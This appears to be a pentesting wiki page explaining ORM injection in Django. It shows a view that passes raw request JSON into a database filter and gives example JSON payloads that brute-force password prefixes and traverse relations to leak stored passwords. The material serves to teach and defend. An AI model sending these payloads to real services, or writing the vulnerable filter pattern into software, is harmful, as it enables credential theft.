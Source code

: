 # ORM Injection





## Django ORM (Python)

In [**this post**](https://www.elttam.com/blog/plormbing-your-django-orm/) is explained how it's possible to make a Django ORM vulnerable by using for example a code like:

<pre class="language-python"><code class="lang-python">class ArticleView(APIView):
    """
        Some basic API view that users send requests to for
        searching for articles
    """
    def post(self, request: Request, format=None):
        try:
<strong>            articles = Article.objects.filter(**request.data)
</strong>            serializer = ArticleSerializer(articles, many=True)
        except Exception as e:
            return Response([])
        return Response(serializer.data)
</code></pre>

Note how all the request.data (which will be a json) is directly passed to **filter objects from the database**. An attacker could send unexpected filters in order to leak more data than expected from it.

Examples:

* **Login:** In a simple login try to leak the passwords of the users registered inside of it.

```json
{
    "username": "admin",
    "password_startswith":"a"
}
```

{% hint style="danger" %}
It's possible to brute-force the password until it's leaked.
{% endhint %}

* **Relational filtering**: It's possible to traverse relations in order to leak information from columns that weren't even expected to be used in the operation. For example, if it's possible to leak articles created by a user withe these relations: Article(`created_by`) -\[1..1]-> Author (`user`) -\[1..1]-> User(`password`).

```json
{
    "created_by__user__password__contains":"pass"
}
```

{% hint style="danger" %}
It's possible to find the password of all the users that have created an article
{% endhint %}
